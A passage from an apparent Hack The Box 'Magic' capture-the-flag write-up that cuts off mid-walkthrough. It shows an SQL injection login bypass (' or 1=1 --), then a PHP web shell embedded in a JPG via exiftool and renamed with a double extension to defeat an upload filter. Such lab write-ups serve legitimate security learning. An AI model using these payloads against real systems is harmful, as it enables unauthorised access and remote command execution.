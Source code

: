 Firstly, when we entered fake credential an error appear and present "Wrong Username or Password".

![Desktop View]({{ "/assets/img/magic/HTB-Images-Magic-error_login.png" | relative_url }})

And when we entered only a single quote in to the "Username" field and submitted the request using the "Login" button, the error not appear.

This show us the website interprets this single quote and had potentially vulnerable to SQL Injection.

![Desktop View]({{ "/assets/img/magic/HTB-Images-Magic-injection_test.png" | relative_url }})

References - sql injection : <https://portswigger.net/support/using-sql-injection-to-bypass-authentication>

## **<span style='color:#c0392b'>[2] Foothold - Get into the target </span>**
### Bypassing Authentication with SQL Injection
***
Now, we used `' or 1=1 -- `

This causes the application to perform the query:

```
SELECT * FROM users WHERE username = '' OR 1=1-- ' AND password = 'foo'
```
Because the comment sequence (--) causes the remainder of the query to be ignored, this is equivalent to:

```
SELECT * FROM users WHERE username = ' ' OR 1=1
```

![Desktop View]({{ "/assets/img/magic/HTB-Images-Magic-injection_bypass.png" | relative_url }})

And we got it! We able to upload images and gain foothold from this way.

![Desktop View]({{ "/assets/img/magic/HTB-Images-Magic-upload_page.png" | relative_url }})

### Obtaining Reverse Shell with Payload Injection
***
The condition to upload allowed files are only `JPG, JPEG and PNG` extensions.

![Desktop View]({{ "/assets/img/magic/HTB-Images-Magic-upload_condition.png" | relative_url }})

We use `exiftool` to embed the payload into the picture to bypass this condition.

```terminal
$ exiftool -Comment='<?php echo "<pre>"; system($_GET["cmd"]); _halt_compiler() ?>' minion.jpg
$ mv minion.jpg minion.php.jpg
```
We need to rename our file to `*.php.jpg` to bypass the restriction. Anyway the file is parsed as a PHP file and our payload is fully functional:
